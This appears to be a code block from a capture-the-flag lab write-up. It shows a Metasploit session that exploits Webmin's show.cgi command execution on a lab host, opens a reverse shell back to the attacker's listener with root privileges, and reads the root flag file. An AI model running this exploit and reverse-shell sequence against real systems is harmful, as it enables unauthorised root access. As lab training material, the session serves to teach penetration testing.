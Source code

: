 ```bash
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false 
[!] Changing the SSL option''s value may require changing RPORT!
SSL => false
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > run

[*] Started reverse TCP double handler on 10.13.36.143:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Zqk3r2RGCNWoh8Bv;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "Zqk3r2RGCNWoh8Bv\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.13.36.143:4444 -> 10.10.62.191:46504) at 2022-09-12 15:34:26 -0400

id       
uid=0(root) gid=0(root) groups=0(root)
whoami
root
/bin/bash -i
bash: cannot set terminal process group (1213): Inappropriate ioctl for device
bash: no job control in this shell
root@gamezone:/usr/share/webmin/file/# cat /root/root.txt
cat /root/root.txt
a4b945830144bdd71908d12d902adeee
root@gamezone:/usr/share/webmin/file/
```